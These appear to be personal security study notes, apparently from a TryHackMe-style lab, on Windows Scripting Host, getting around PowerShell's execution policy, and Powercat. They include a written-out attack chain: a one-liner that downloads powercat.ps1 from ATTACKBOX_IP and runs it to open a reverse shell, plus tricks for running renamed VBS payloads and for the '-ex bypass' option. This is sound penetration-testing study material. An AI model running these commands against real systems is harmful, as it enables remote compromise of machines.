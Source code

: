 ```yaml
---
title: Notes
description:  A collection of notes I have taken throughout my journey
---
```


## Windows Scripting Host
Windows scripting host is a built-in Windows administration tool that runs batch files to automate and manage tasks within the operating system.
```cmd 
wscript hello.vbs
```
- If the VBS files are blacklisted, then we can rename the file to .txt file and run it using wscript as follows,
```cmd 
c:\Windows\System32>wscript /e:VBScript c:\Users\thm\Desktop\payload.txt
```
## PowerShell

### Execution Policy
PowerShell's execution policy is a security option to protect the system from running malicious scripts. By default, Microsoft disables executing PowerShell scripts .ps1 for security purposes. The PowerShell execution policy is set to Restricted, which means it permits individual commands but not run any scripts.

You can determine the current PowerShell setting of your Windows:
```powershell
PS C:\Users\thm> Get-ExecutionPolicy
```
To change: 
```powershell
PS C:\Users\thm\Desktop> Set-ExecutionPolicy -Scope CurrentUser RemoteSigned
```

### Bypass Execution Policy
Microsoft provides ways to disable this restriction. One of these ways is by giving an argument option to the PowerShell command to change it to your desired setting. For example, we can change it to bypass policy which means nothing is blocked or restricted. This is useful since that lets us run our own PowerShell scripts.

In order to make sure our PowerShell file gets executed, we need to provide the bypass option in the arguments as follows,
```powershell
C:\Users\thm\Desktop>powershell -ex bypass -File thm.ps1
```

## Powercat
Netcat: The powershell version.

1.  Set up a web server to serve the powercat.ps1 that will be downloaded and executed on the target machine. 
2.  Change the directory to powercat and start listening on a port of your choice. In our case, we will be using port 8080.
3.  Set up a listener on any port using nc to receive the connection back from the victim.  We are using port 1337.

```bash
user@machine$ cd powercat 
user@machine$ python3 -m http.server 8080
// New Terminal Window or Tab
user@machine$  nc -lvp 1337
```
4. Now, from the victim machine, we download the payload and execute it using PowerShell payload.
```powershell

C:\Users\thm\Desktop> powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKBOX_IP:8080/powercat.ps1');powercat -c ATTACKBOX_IP -p 1337 -e cmd"
```
### Download
[https://github.com/besimorhino/powercat](https://github.com/besimorhino/powercat)

